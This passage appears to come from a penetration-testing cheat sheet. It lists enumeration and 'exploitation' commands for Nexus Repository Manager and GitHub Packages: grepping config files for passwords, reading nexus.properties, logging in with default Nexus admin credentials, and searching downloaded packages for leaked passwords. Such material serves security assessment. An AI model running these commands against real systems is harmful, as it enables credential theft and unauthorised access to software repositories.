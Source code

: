       ```

#### **2. Nexus Repository Manager (Windows & Linux)**
- **Enumeration:**
  - **Check for Nexus Service:**
    - Windows:
      ```powershell
      Get-Service -Name *nexus*
      ```
    - Linux:
      ```bash
      systemctl status nexus
      ```
  - **Identify Nexus Configuration Files:**
    - Windows:
      ```powershell
      Get-ChildItem -Path "C:\Nexus\sonatype-work\nexus3\etc\*" -Recurse | Select-String -Pattern "password" -SimpleMatch
      ```
    - Linux:
      ```bash
      grep -i "password" /opt/sonatype/nexus3/etc/* -r
      ```

- **Exploitation:**
  - **Extract Sensitive Information:**
    - Windows:
      ```powershell
      Get-Content "C:\Nexus\sonatype-work\nexus3\etc\nexus.properties" | Out-String
      ```
    - Linux:
      ```bash
      cat /opt/sonatype/nexus3/etc/nexus.properties
      ```
  - **Exploit Tools:**
    - **cURL**: Use cURL to interact with Nexus API for accessing repositories:
      ```bash
      curl -u admin:admin123 -X GET "http://<nexus_url>:8081/service/rest/v1/search/assets?repository=<repository_name>"
      ```

#### **3. GitHub Packages (Windows & Linux)**
- **Enumeration:**
  - **Identify GitHub Repositories:**
    - Windows & Linux:
      ```bash
      curl -s -H "Authorization: token <YOUR_GITHUB_TOKEN>" https://api.github.com/user/repos | jq '.[] | .full_name'
      ```

- **Exploitation:**
  - **Download and Analyze Packages:**
    - Windows & Linux:
      ```bash
      curl -u "username:token" -L "https://<repository-url>/releases/download/<release-tag>/<package>.zip" -o <package>.zip
      ```
  - **Check for Credential Leaks in Packages:**
    - Windows & Linux:
      ```bash
      unzip -p <package>.zip | grep -i "password"
      ```
